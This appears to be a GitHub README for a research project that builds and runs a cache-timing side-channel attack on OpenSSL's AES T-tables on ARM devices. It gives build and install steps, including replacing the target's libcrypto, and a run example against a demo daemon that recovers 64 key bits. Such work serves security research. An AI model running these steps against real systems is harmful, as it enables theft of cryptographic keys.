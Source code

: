# side-channel-attack

side-channel-attack

# Contents
1. [How to build - armv7](#1-How-to-build-armv7)
2. [How to build - armv8](#1-How-to-build-armv8)
3. [How to install to your device](#3-How-to-install-to-your-device)
4. [How to run one-round-attack - rpi3 (armv8)](#4-How-to-run-one-round-attack-rpi3-armv8)

# 1. How to build - armv7

* Build all
    ```
	$ vim build_armv7.sh  ==> apply your cross compiler to SCA_CROSS_COMPILER
    $ ./build_armv7.sh
    ```

# 2. How to build - armv8

* Build all
    ```
	$ vim build_armv8.sh  ==> apply your cross compiler to SCA_CROSS_COMPILER
    $ ./build_armv8.sh
    ```

# 3. How to install to your device

* Copy and install shared library
    ```
    $ cp -f build/lib/libcrypto.so.[version] usb/   ==> on your host
    
    $ cp -f usb/libcrypto.so.[version] /usr/lib/   ==> on target device
	==> libcrypto.so.0.9.8 for armv7, libcrypto.so.1.0.0 for armv8
    ```

* Copy and install attack binaries
    ```
    $ cp -f build/cache-attack/one-round-attack/real-security-daemon/* usb/  ==> on your host
    
    $ cp -f usb/* /usr/bin/  ==> on target device.
    ```

# 4. How to run one-round-attack - rpi3 (armv8)

* Get T-table address from openssl library (on your host)
	```
	$ nm libcrypto.so.1.0.0 | grep Te0
	  0000000000170090 r Te0
	$ nm libcrypto.so.1.0.0 | grep Te1
	  000000000016fc90 r Te1
	==> repeat for Te2, Te3..
	```

* Run one-round-attack on rpi3
	```
	$ ./security_daemon &
	  root@RPi3:/aes security_daemon is running...
	  real key : a2981898c47187538cde1709dbd9ab40
	$ ./attacker
	  USAGE : ./attacker <limit plain text count> <repeat count for a plaintext> <cpu cycle threshold> <offset te0> <offset te1> <offset te2> <offset te3>
	  EXAMPLE : ./attacker 1000 1 200 0010dca8 0010e0a8 0010e4a8 0010d8a8
	$ ./attacker 500 1 200 00170090 0016fc90 00170890 00170490
	  security_daemon_connect success
	  plain_text_cnt : 500
	  calculating all subsets...
	  progress : 4096 / 2048000
	  progress : 8192 / 2048000
	  .......
	  ....... 
	  predict key : a0901090c070805080d01000d0d0a040
	  Recover [64] bits success!!   ====>  It's result of attack!!!
	  security_daemon is closing...
	  [1]+  Done                       ./security_daemon
	```

# 5. Supported attack for each arch

* one-round-attack is enable on both armv7 and armv8.
* last-round-attack is enable on armv7. (to do on armv8)



